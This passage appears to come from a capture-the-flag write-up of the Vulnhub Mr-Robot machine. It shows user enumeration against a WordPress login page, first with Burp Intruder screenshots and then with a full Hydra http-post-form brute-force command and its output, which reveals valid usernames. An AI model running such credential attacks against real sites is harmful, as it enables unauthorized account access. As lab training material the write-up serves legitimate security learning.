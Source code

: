 
With Burp Intruder we can enumerate users on a website #user-enumeration
![Image](/assets/img/WriteUp/Vulnhub/MrRobot/Pasted image 20230305151251.png){: width="700" height="400" }

Send the reuqest to `Burp Suite Intruder`.

![Image](/assets/img/WriteUp/Vulnhub/MrRobot/Pasted image 20230305151420.png){: width="700" height="400" }

Select the new dictionary.

![Image](/assets/img/WriteUp/Vulnhub/MrRobot/Pasted image 20230305151515.png){: width="700" height="400" }

Click the button to start the attack. Since the Intruder is running slowly through the list, it is tmie to try to enumerate the user with Hydra.


**User enumeration with Hydra.** #user-enumeration-Hydra
```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/MR-Robot]
└─$ hydra -vV -p password -L new-list.dic $ip http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-03-05 15:22:57
[DATA] max 16 tasks per 1 server, overall 16 tasks, 11452 login tries (l:11452/p:1), ~716 tries per task
[DATA] attacking http-post-form://10.0.2.23:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[ATTEMPT] target 10.0.2.23 - login "000" - pass "password" - 1 of 11452 [child 0] (0/0)
[ATTEMPT] target 10.0.2.23 - login "000000" - pass "password" - 2 of 11452 [child 1] (0/0)
[ATTEMPT] target 10.0.2.23 - login "000080" - pass "password" - 3 of 11452 [child 2] (0/0)
[ATTEMPT] target 10.0.2.23 - login "001" - pass "password" - 4 of 11452 [child 3] (0/0)
[ATTEMPT] target 10.0.2.23 - login "002" - pass "password" - 5 of 11452 [child 4] (0/0)
[ATTEMPT] target 10.0.2.23 - login "003" - pass "password" - 6 of 11452 [child 5] (0/0)
[ATTEMPT] target 10.0.2.23 - login "0032" - pass "password" - 7 of 11452 [child 6] (0/0)
[ATTEMPT] target 10.0.2.23 - login "003s" - pass "password" - 8 of 11452 [child 7] (0/0)
[ATTEMPT] target 10.0.2.23 - login "004" - pass "password" - 9 of 11452 [child 8] (0/0)
[ATTEMPT] target 10.0.2.23 - login "00480" - pass "password" - 10 of 11452 [child 9] (0/0)
[ATTEMPT] target 10.0.2.23 - login "004s" - pass "password" - 11 of 11452 [child 10] (0/

<--- SNIP --->

[ATTEMPT] target 10.0.2.23 - login "emails" - pass "password" - 5487 of 11452 [child 2] (0/0)
[ATTEMPT] target 10.0.2.23 - login "embed" - pass "password" - 5488 of 11452 [child 1] (0/0)
[80][http-post-form] host: 10.0.2.23   login: elliot   password: password
[ATTEMPT] target 10.0.2.23 - login "Embedded" - pass "password" - 5489 of 11452 [child 11] (0/0)
[80][http-post-form] host: 10.0.2.23   login: Elliot   password: password
[ATTEMPT] target 10.0.2.23 - login "embodiment" - pass "password" - 5490 of 11452 [child 12] (0/0)
[80][http-post-form] host: 10.0.2.23   login: ELLIOT   password: password
[ATTEMPT] target 10.0.2.23 - login "embraced" - pass "password" - 5491 of 11452 [child 8] (0/0)
[ATTEMPT] target 10.0.2.23 - login "Emmauel10" - pass "password" - 5492 of 11452 [child 9] (0/0)

<--- SNIP --->

[ATTEMPT] target 10.0.2.23 - login "zSqu8myTkY8" - pass "password" - 11451 of 11452 [child 9] (0/0)
[ATTEMPT] target 10.0.2.23 - login "Zzydrax" - pass "password" - 11452 of 11452 [child 1] (0/0)
[STATUS] attack finished for 10.0.2.23 (waiting for children to complete tests)
1 of 1 target successfully completed, 3 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-03-05 15:28:18        
```
Valid usernames are highlited in blue.
